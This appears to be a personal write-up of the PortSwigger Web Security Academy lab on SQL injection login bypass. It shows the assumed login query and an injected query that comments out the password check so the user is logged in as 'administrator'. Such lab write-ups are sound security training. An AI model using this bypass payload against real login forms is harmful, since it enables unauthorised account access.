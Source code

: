 # Objective
This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user.
# Write up
The SQL should look like
```sql
SELECT * FROM users WHERE username = 'input_username' AND password = 'input_passwd'
```
We can bypass the authentication by make the password statement disabled:
```sql
SELECT * FROM users WHERE username = 'administrator' AND 1=1 -- AND password='input_passwd'
```
![[Pasted image 20240514232705.png]]
![[Pasted image 20240514232723.png]]
# Lab link:
[Lab: SQL injection vulnerability allowing login bypass | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

